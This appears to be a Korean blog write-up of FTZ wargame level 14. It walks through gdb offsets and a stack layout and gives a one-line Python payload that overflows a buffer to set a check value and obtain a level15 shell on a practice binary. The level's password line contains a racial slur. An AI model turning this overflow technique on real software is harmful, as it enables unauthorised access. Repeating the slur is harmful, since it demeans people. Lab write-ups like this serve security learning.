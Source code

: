 ```yaml
---
title:  "[FTZ] level 14"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-18 17:39:31
---
```


# level 14

**level14 / what that nigga want?**

힌트

![image](https://user-images.githubusercontent.com/69203345/146631165-0286625e-073d-46f0-9a9b-863146d593bb.png)

버퍼 오버플로우, 포맷스트링 학습에 도움이 된다고 적혀있다.

정수형 crap  
정수형 check  
buf에 20바이트 크기 할당  
fgets로 문자열을 받는데 45바이트 만큼만 받음  
check 가 0xdeadbeef일때 if 문 실행  
level15의 pid, /bin/bash 실행

/tmp로 복사해서 gdb분석

![image](https://user-images.githubusercontent.com/69203345/146633619-f6a0afc4-80fa-4851-8104-d240af4d14bb.png)

"그 시간"

0x080484a1 <main+17>    lea     eax,[ebp-56]

buf에서 ebp까지의 거리= 56

0x080484ad <main+29>    cmp     DWORD PTR [ebp-16],0xdeadbeef

check 에서 ebp 까지의 거리 16

낮은주소

buf[20] [ebp-56]  
dummy[20]  
check[4] [ebp-16]  
crap[4]+dummy[8]   
sfp[4]  
ret[4]

높은주소

페이로드  
buf~check 까지의 거리 + 변조할값
> (python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146635091-6ad8ad0c-2996-4833-809b-bafeee270d13.png)